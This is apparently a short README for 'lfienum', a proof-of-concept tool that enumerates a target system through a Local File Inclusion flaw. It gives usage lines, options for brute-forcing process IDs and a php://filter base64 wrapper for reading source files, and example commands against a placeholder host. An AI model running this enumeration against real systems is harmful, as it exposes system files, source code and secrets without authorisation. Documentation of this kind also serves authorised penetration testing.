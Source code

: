 Local File Inclusion Enumeration (PoC)  

Almost whole system enumeration when target is vulnerable to LFI.  

```
lfienum ~by 0bfxgh0st*

Usage python3 lfienum.py <url>

Options:

       --pid          Bruteforce 999 process id
       --wrapper      (php://filter/convert.base64-encode/resource=)

Examples:
           python3 lfienum.py "http://ghost.server/index.php?page="
           python3 lfienum.py "http://ghost.server/index.php?page=" --pid
           python3 lfienum.py "http://ghost.server/index.php?page=" --wrapper index.php
```

Internal wordlist from sources:  
https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-gracefulsecurity-linux.txt  
https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-gracefulsecurity-windows.txt  
